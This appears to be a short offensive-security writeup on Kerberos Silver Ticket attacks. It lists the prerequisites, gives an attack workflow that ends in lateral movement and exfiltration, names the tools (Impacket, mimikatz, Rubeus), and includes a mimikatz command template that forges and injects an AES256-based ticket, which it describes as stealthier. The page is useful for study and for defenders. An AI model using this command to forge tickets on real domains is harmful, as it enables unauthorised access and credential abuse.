 
# Enhanced Silver Ticket Attack Analysis ..revised..

## Executive Summary

Silver Ticket attacks represent a sophisticated Kerberos exploitation technique that allows attackers to forge Ticket Granting Service (TGS) tickets for specific services after compromising service account credentials. Unlike Golden Tickets, Silver Tickets provide targeted access but are harder to detect and easier to execute.

## Technical Deep Dive

### Attack Prerequisites
- Service account NTLM hash or AES keys (AES128/AES256)
- Domain SID
- Target service information
- Basic Active Directory knowledge

### Enhanced Attack Workflow

```mermaid
graph TD
    A[Initial Compromise] --> B[Credential Harvesting]
    B --> C[Hash Extraction]
    C --> D[Ticket Forging]
    D --> E[Ticket Injection]
    E --> F[Service Access]
    F --> G[Lateral Movement/Data Exfiltration]
```

## Expanded Tool Arsenal

### Primary Tools
```bash
# Impacket Suite
ticketer.py          # Linux-based ticket creation
getST.py            # Service ticket requests
secretsdump.py      # Credential extraction

# Windows Tools
mimikatz.exe        # Comprehensive Kerberos toolkit
Rubeus.exe          # .NET Kerberos abuse toolkit
PowerSploit         # PowerShell exploitation framework
```

### Advanced Techniques

#### 1. AES Key-Based Silver Tickets
```powershell
# Using AES256 keys (more stealthy)
mimikatz.exe "kerberos::golden /user:admin /domain:corp.local /sid:S-1-5-21-... /aes256:abc123... /target:server.corp.local /service:cifs /ptt"
```
